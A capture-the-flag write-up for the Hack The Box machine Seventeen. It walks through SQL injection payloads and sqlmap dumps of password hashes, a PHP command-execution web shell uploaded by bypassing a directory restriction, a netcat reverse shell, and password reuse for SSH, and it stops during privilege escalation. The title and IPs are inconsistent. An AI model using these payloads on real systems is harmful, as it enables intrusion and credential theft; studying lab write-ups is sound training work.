# Undetected HTB | 0xwerz | 03/02/22 
### The official [box page](https://app.hackthebox.com/machines/Seventeen) on HTB 
<p align="center">


</p>


### The writeup:
#### System Scan | **IP: 10.10.11.146**
let's add the ip to to the `/etc/hosts` file and name it `undetected.htb`
> `echo '10.10.11.146    undetected.htb ' >> /etc/hosts`


Startup a nmap scan | **-sC for the default set of scripts**. | **-sV version detection**. | **-T4 traffic speed**.
>`nmap -sC -sV -T4 10.10.11.146`

```
werz@ctf01:~/ctf/htb/seventenn$ nmap -sC -sV -T4 10.10.11.165 
Starting Nmap 7.80 ( https://nmap.org ) at 2022-08-02 06:42 +01
Nmap scan report for seventeen.htb (10.10.11.165)
Host is up (0.086s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:b2:6e:bb:92:7d:5e:6b:36:93:17:1a:82:09:e4:64 (RSA)
|   256 1f:57:c6:53:fc:2d:8b:51:7d:30:42:02:a4:d6:5f:44 (ECDSA)
|_  256 d5:a5:36:38:19:fe:0d:67:79:16:e6:da:17:91:eb:ad (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Let's begin your education with us! 
8000/tcp open  http    Apache httpd 2.4.38
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: 403 Forbidden
Service Info: Host: 172.17.0.3; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.00 seconds
```
## Open Ports
|Ports|Service|Takeaways|
|------|-----|-----|
|22|SSH| OpenSSH 7.6p1
|80|HTTP| Apache httpd 2.4.29|
|8000|HTTP|Apache httpd 2.4.38

## Enumeration | Webpage - port 80  


At the top we see `seventeen.htb`. I'll add that to my `/etc/hosts` file.

I'll give time for directory fuzzing. I'm using [feroxbuster](https://github.com/epi052/feroxbuster).

```
feroxbuster -u http://seventeen.htb 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://seventeen.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.1
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
```

## Webpage - port 8000



I'll run a directory fuzzing also. 

```
feroxbuster -u http://10.10.11.165:8000
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.165:8000
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.1
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      280c http://seventeen.htb:8000/
403      GET        9l       28w      280c http://seventeen.htb:8000/server-status
[####################] - 1m     60000/60000   0s      found:2       errors:0      
[####################] - 59s    30000/30000   501/s   http://seventeen.htb:8000 
[####################] - 55s    30000/30000   543/s   http://seventeen.htb:8000/ 
```
Nothing seems interesting execpt the server-status endpoint that is Forbidden/403 also.

I'll go with a subdomain fuzz. I'll use [fuff](https://github.com/ffuf/ffuf)

```
ffuf -u FUZZ.seventeen.htb -w D:\Downloads\SecLists\Discovery\DNS\subdomains-top1million-110000.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0
________________________________________________

 :: Method           : GET
 :: URL              : FUZZ.seventeen.htb
 :: Wordlist         : FUZZ: D:\Downloads\SecLists\Discovery\DNS\subdomains-top1million-110000.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

:: Progress: [114441/114441] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 114441 ::
PS C:\Users\werz> ffuf -u http://FUZZ.seventeen.htb -w D:\Downloads\SecLists\Discovery\DNS\subdomains-top1million-110000.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0
________________________________________________

 :: Method           : GET
 :: URL              : http://FUZZ.seventeen.htb
 :: Wordlist         : FUZZ: D:\Downloads\SecLists\Discovery\DNS\subdomains-top1million-110000.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

exam                    [Status: 200, Size: 17375, Words: 3222, Lines: 348, Duration: 344ms]0 ::
:: Progress: [1720/114441] :: Job [1/1] :: 872 req/sec :: Duration: [0:00:20] :: Errors: 1679 :::
```
And we got one `exam`. let's check it out by adding it to the hosts file. `/etc/hosts`


The web site seems hosting a exam Management System.

Clicking the admin href link direct us to `/admin/login.php` so it may be a php webpage.

the `Exams` href seems interesting also `/?p=exams` we may should inject some payloads here.

Well, if we search for `Exam Reviewer Management` on [exploit-db](https://www.exploit-db.com/) we'll end up with two cool results:



I'll start with the sqli/50725 one

### POC:

```

Parameter: id (GET)

Type: boolean-based blind

Title: AND boolean-based blind - WHERE or HAVING clause

Payload: p=take_exam&id=1' AND 4755=4755 AND 'VHNu'='VHNu


Type: error-based

Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY
clause (FLOOR)

Payload: p=take_exam&id=1' OR (SELECT 8795 FROM(SELECT
COUNT(*),CONCAT(0x71766a7071,(SELECT
(ELT(8795=8795,1))),0x7162716b71,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'MCXA'='MCXA


Type: time-based blind

Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)

Payload: p=take_exam&id=1' AND (SELECT 2206 FROM (SELECT(SLEEP(5)))AhEo)
AND 'vqGg'='vqGg---


*SQLMAP COMMAND*


*# sqlmap -u "127.0.0.1/erms/?p=take_exam&id=1
<http://127.0.0.1/erms/?p=take_exam&id=1>" -p id --dbs --level 3*
```

I'll pass the request `http://exam.seventeen.htb/?p=take_exam&id=1' AND 4755=4752 AND 'VHNu'='VHNu` It may work.



If we lower the value of `4755=4755` `4755=4754` we'll get a alert



So based on this behavior it should be a boolean-based SQL injection.

I'll automate it with [sqlmap](https://github.com/sqlmapproject/sqlmap) 

> sqlmap.py --technique B -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --batch

||||
|------|-----|-----|
|--technique B|boolean-based|
|-p |specific param|
|--batch|non-interactive session

```
sqlmap.py -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.6.9.3#dev}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:35:34 /2022-09-29/

[16:35:35] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=6576f096723...b079104033'). Do you want to use those [Y/n] Y
[16:35:36] [INFO] testing if the target URL content is stable
[16:35:36] [INFO] target URL content is stable
[16:35:36] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[16:35:37] [INFO] testing for SQL injection on GET parameter 'id'
[16:35:37] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[16:35:42] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="This")
[16:36:12] [WARNING] there is a possibility that the target (or WAF/IPS) is dropping 'suspicious' requests
[16:36:12] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[16:37:42] [CRITICAL] connection timed out to the target URL
[16:37:51] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[16:37:51] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 25 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=take_exam&id=1' AND 3991=3991 AND 'MTpX'='MTpX
---
[16:37:54] [INFO] testing MySQL
[16:37:54] [INFO] confirming MySQL
[16:37:55] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38, PHP, PHP 7.2.34
back-end DBMS: MySQL >= 5.0.0
[16:37:56] [INFO] fetched data logged to text files under '/home/werz/.local/share/sqlmap/output/exam.seventeen.htb'

[*] ending @ 16:37:56 /2022-09-29/
```

Indeed!, we got it working. Let's dump the content now. `--dbs` for dumping databases


```
sqlmap.py --dbs -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch
<
[16:49:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: PHP 7.2.34, Apache 2.4.38, PHP
back-end DBMS: MySQL 5
[16:49:52] [INFO] fetching database names
[16:49:52] [INFO] fetching number of databases
[16:49:52] [INFO] resumed: 4
[16:49:52] [INFO] retrieving the length of query output
[16:49:52] [INFO] retrieved: 18
[16:50:04] [INFO] retrieved: information_schema
[16:50:04] [INFO] retrieving the length of query output
[16:50:04] [INFO] retrieved: 7
[16:50:11] [INFO] retrieved: db_sfms
[16:50:11] [INFO] retrieving the length of query output
[16:50:11] [INFO] retrieved: 7
[16:50:18] [INFO] retrieved: erms_db
[16:50:18] [INFO] retrieving the length of query output
[16:50:18] [INFO] retrieved: 11
[16:50:26] [INFO] retrieved: roundcubedb
available databases [4]:
[*] db_sfms
[*] erms_db
[*] information_schema
[*] roundcubedb
```

I’ll start with `erms_db` database.

```
sqlmap.py --tables -D erms_db -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
<
[6 tables]
+---------------+
| category_list |
| exam_list     |
| option_list   |
| question_list |
| system_info   |
| users         |
+---------------+
<
```
6 tables are here, I'll dump the users table, we may retrieve some hashes.

```
sqlmap.py -D erms_db -T users --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
<

Database: erms_db
Table: users
[3 entries]
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
| id | type | avatar                            | lastname | password                         | username         | firstname    | date_added          | last_login | date_updated        |
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
| 1  | 1    | ../oldmanagement/files/avatar.png | Admin    | fc8ec7b43523e186a27f46957818391c | admin            | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2022-02-24 22:00:15 |
| 6  | 2    | ../oldmanagement/files/avatar.png | Anthony  | 48bb86d036bb993dfdcf7fefdc60cc06 | UndetectableMark | Mark         | 2021-09-30 16:34:02 | NULL       | 2022-05-10 08:21:39 |
| 7  | 2    | ../oldmanagement/files/avatar.png | Smith    | 184fe92824bea12486ae9a56050228ee | Stev1992         | Steven       | 2022-02-22 21:05:07 | NULL       | 2022-02-24 22:00:24 |
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+

<

```

Trying to crack these md5 hashes with [crackstation](https://crackstation.net/) but with no help. if we focus on the avatar path `../oldmanagement/files/`, it seems to be another vhost, if we say that `erms` live in `/var/www/emrs`, then avatars are aimed back to `/var/www/oldmanagement`. Let's check it then. add `oldmanagement.seventeen.htb` to the hosts file `/etc/hosts`


So yeah, we got a response back after redirecting us to port 8000:



School File Management System seems to be a short form of db_sfms database, So let's dump it we might retrieve some login credentials.

```
sqlmap -D db_sfms --tables -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
<
Database: db_sfms
[3 tables]
+---------+
| user    |
| storage |
| student |
+---------+
<
```

Since I'm trying to log in, I'll dump the user table. we might retrieve some crackable hashes

```
sqlmap.py -D db_sfms -T user --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
<
Database: db_sfms
Table: user
[3 entries]
+---------+---------------+---------------+----------------------------------+------------------+---------------+
| user_id | status        | lastname      | password                         | username         | firstname     |
+---------+---------------+---------------+----------------------------------+------------------+---------------+
| 1       | administrator | Administrator | fc8ec7b43523e186a27f46957818391c | admin            | Administrator |
| 2       | Regular       | Anthony       | b35e311c80075c4916935cbbbd770cef | UndetectableMark | Mark          |
| 4       | Regular       | Smith         | 112dd9d08abf9dcceec8bc6d3e26b138 | Stev1992         | Steven        |
+---------+---------------+---------------+----------------------------------+------------------+---------------+
<
```
There's no student number in this table, let's dump the `student` table then.

```
sqlmap.py -D db_sfms -T student --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
<
Database: db_sfms
Table: student
[4 entries]
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| stud_id | yr | gender | stud_no | lastname | password                                           | firstname |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| 1       | 1A | Male   | 12345   | Smith    | 1a40620f9a4ed6cb8d81a1d365559233                   | John      |
| 2       | 2B | Male   | 23347   | Mille    | abb635c915b0cc296e071e8d76e9060c                   | James     |
| 3       | 2C | Female | 31234   | Shane    | a2afa567b1efdb42d8966353337d9024 (autodestruction) | Kelly     |
| 4       | 3C | Female | 43347   | Hales    | a1428092eb55781de5eb4fd5e2ceb835                   | Jamie     |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
<
```

And let's try cracking these hashes on [crackstation](https://crackstation.net/)



kelly Shane with the 31234 number is crackable and `autodestruction` as a result. let's login then! 

And we are in: 

 

Theres a upload and a download button.
## www-data shell
If we download the pdf file `Marksheet-finals.pdf` nothing appear interesting, let's try upload something, I'll upload the same pdf file, just to see where it might be saved.

After some manual enumeration, I see that the uploaded files are saved in  `/files/<student-number>/<filesname>` in my case I can retrive the file in `/files/31234/Marksheet-finals.pdf` 

We can be sure also by checking the [source-code](https://www.sourcecodester.com/php/14155/school-file-management-system.html) though.


I'll upload a php reverse shell. with the following content:

```php
<?php
system($_REQUEST['cmd']);
?>
```



we can see that the file is uploaded fine, but is blocked. I'll interecpt the upload form with burp to see if we can playaround with it params.



What if change the student number, we might overide another directory and avoid the php execute block.

I've changed `31234` to `31235`




And we got a RCE!

I'll request a reverse shell after a nc listener:




```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.165] 58730
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@c5d1cc2e5e93:/var/www/html/oldmanagement/files/31235$
```
## mark shell | user

I'll stabilize my shell:
> python -c 'import pty; pty.spawn("/bin/bash")'

> export TERM=xterm


For users: 
```
www-data@c5d1cc2e5e93:/var/www/html/oldmanagement/files/31235$ cat /etc/passwd | grep sh$
 grep sh$passwd |
root:x:0:0:root:/root:/bin/bash
mark:x:1000:1000:,,,:/var/www/html:/bin/bash
```

After some time with checking files for leaking passwords, we got `got2020bestyearofmylife` password in `/var/www/html/employeemanagementsystem/process/dbh.php`

```
www-data@c5d1cc2e5e93:/var/www/html/employeemanagementsystem$ cat process/dbh.php
pat process/dbh.php
<?php

$servername = "localhost";
$dBUsername = "root";
$dbPassword = "2020bestyearofmylife";
$dBName = "ems";

$conn = mysqli_connect($servername, $dBUsername, $dbPassword, $dBName);

if(!$conn){
        echo "Databese Connection Failed";
}

?>
```

And we can ssh as mark with this password!

```
$ssh mark@seventeen.htb
The authenticity of host 'seventeen.htb (10.10.11.165)' can't be established.
ECDSA key fingerprint is SHA256:9yQJzo3BRPcH9ll7nS2DgdbYMIsKNYFqYfpACm2s9A8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'seventeen.htb' (ECDSA) to the list of known hosts.
mark@seventeen.htb's password:
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Sep 30 00:17:47 UTC 2022

  System load:                    0.0
  Usage of /:                     60.1% of 11.75GB
  Memory usage:                   50%
  Swap usage:                     0%
  Processes:                      367
  Users logged in:                0
  IP address for eth0:            10.10.11.165
  IP address for br-b3834f770aa3: 172.18.0.1
  IP address for br-cc437cf0c6a8: 172.19.0.1
  IP address for br-3539a4850ffa: 172.20.0.1
  IP address for docker0:         172.17.0.1


18 updates can be applied immediately.
12 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Tue May 31 18:03:16 2022 from 10.10.14.23
mark@seventeen:~$ ls
users.txt
```
And we also got user flag !

## Kavi shell | PE


There is a mail for kavi in /var/mail/kavi:

```
mark@seventeen:~$ cat /var/mail/kavi
To: kavi@seventeen.htb
From: admin@seventeen.htb
Subject: New staff manager application

Hello Kavishka,

Sorry I couldn't reach you sooner. Good job with the design. I loved it.

I think Mr. Johnson already told you about our new staff management system. Since our old one had some problems, they are hoping maybe we could migrate to a more modern one. For the first phase, he asked us just a simple web UI to store the details of the staff members.

I have already done some server-side for you. Even though, I did come across some problems with our private registry. However as we agreed, I removed our old logger and added loglevel instead. You just have to publish it to our registry and test it with the application.

Cheers,
Mike
```

Seems interesting. 

If wel list the listening ports

```
mark@seventeen:~$ netstat -tnlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name  
tcp        0      0 127.0.0.1:993           0.0.0.0:*               LISTEN      -                 
tcp        0      0 127.0.0.1:995           0.0.0.0:*               LISTEN      -                 
tcp        0      0 127.0.0.1:43717         0.0.0.0:*               LISTEN      -                 
tcp        0      0 127.0.0.1:4873          0.0.0.0:*               LISTEN      -

tcp        0      0 172.18.0.1:3306         0.0.0.0:*               LISTEN      -

tcp        0      0 127.0.0.1:110           0.0.0.0:*               LISTEN      -

tcp        0      0 127.0.0.1:143           0.0.0.0:*               LISTEN      -

tcp        0      0 127.0.0.1:6000          0.0.0.0:*               LISTEN      -

tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -

tcp        0      0 127.0.0.1:6001          0.0.0.0:*               LISTEN      -

tcp        0      0 127.0.0.1:8081          0.0.0.0:*               LISTEN      -

tcp        0      0 127.0.0.1:6002          0.0.0.0:*               LISTEN      -

tcp        0      0 127.0.0.1:6003          0.0.0.0:*               LISTEN      -

